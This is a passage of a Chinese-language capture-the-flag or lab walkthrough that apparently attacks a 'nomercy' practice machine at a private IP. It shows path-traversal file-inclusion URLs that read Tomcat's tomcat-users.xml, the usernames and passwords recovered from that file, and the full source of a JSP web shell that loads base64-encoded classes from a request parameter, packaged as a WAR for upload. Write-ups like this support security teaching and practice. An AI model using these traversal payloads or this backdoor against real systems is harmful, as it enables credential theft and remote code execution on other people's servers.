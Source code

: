 尝试一下这个`PoC`：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403251401778.png" alt="image-20240325132021802" style="zoom: 50%;" />

阔以！根据8080端口得到的提示，尝试是否可以包含`tomcat`的账号密码：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403251401779.png" alt="image-20240325132436756" style="zoom:50%;" />

```text
http://192.168.37.132/nomercy/windows/code.php?file=../../../../../../usr/local/tomcat/tomcat7/conf/tomcat-users.xml
http://192.168.37.132/nomercy/windows/code.php?file=../../../../../../home/qiu/.tomcat/conf/tomcat-users.xml
http://192.168.37.132/nomercy/windows/code.php?file=../../../../../../etc/tomcat7/tomcat-users.xml
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403251401781.png" alt="image-20240325133430764" style="zoom: 33%;" />

获得到了账号密码：

```apl
thisisasuperduperlonguser
heartbreakisinevitable

fluffy
freakishfluffybunny
```

### 登录上传shell

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403251401782.png" alt="image-20240325133535522" style="zoom:50%;" />

登录上来了以后，尝试上传`Jsp`木马：

```php
// exp.jsp => exp.war
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("hack");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```